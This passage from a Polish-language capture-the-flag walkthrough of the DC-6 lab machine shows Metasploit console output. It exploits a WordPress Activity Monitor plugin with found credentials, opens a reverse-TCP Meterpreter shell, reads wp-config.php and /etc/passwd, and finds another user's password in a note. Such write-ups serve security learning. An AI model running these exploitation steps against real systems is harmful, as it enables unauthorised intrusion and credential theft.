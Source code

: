Widzimy Plugin **Activity monitor**. Poszukajmy go na **Metasploicie**. A jeżeli jest, to ma podatność i możemy go uruchomić:
{: .text-justify}
```console
msf6 > search wp activity

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_plainview_activity_monitor_rce  2018-08-26       excellent  Yes    Wordpress Plainview Activity Monitor RCE

msf6 > use exploit/unix/webapp/wp_plainview_activity_monitor_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set username mark
username => mark
msf6 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set password helpdesk01
password => helpdesk01
msf6 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set vhost wordy
vhost => wordy
msf6 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.10:4444
msf6 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > [*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Could not identify the version number
[*] Trying to login...
[+] Login Successful
[*] Sending stage (39282 bytes) to 172.16.1.214
[*] Meterpreter session 1 opened (172.16.1.10:4444 -> 172.16.1.214:52946) at 2021-10-08 15:13:36 +0200
```

## 05. Co tam ciekawego na konsoli?
Jesteśmy już na koncie, a teraz możemy sprawdzić plik **/var/www/html/wp-config.php**. Tam zazwyczaj jest odkryte hasło, login i nazwa bazy, ale w tym wypadku niestety to się nie przyda. Z pliku **/etc/passwd** się dowiadujemy, że na systemie są konta użytkowników: **graham**, **mark**, **sarah**, **jens**. Hasło **mark**a z **Wordpress**a nie pasuje do **Shell**a. Ale czy możemy wejść na konta innych użytkowników i zobaczyć co oni tam mają. Dalej będę  opisywał jak przechodząc przez kolejnych userów pniemy się coraz wyżej, aż do **root**a. 
{: .text-justify}

### graham
```bash
# www-data@dc-6:/$ cd /home/mark/stuff
# cd /home/mark/stuff
www-data@dc-6:/home/mark/stuff$ ls
# ls
things-to-do.txt
www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt
# cat things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
```
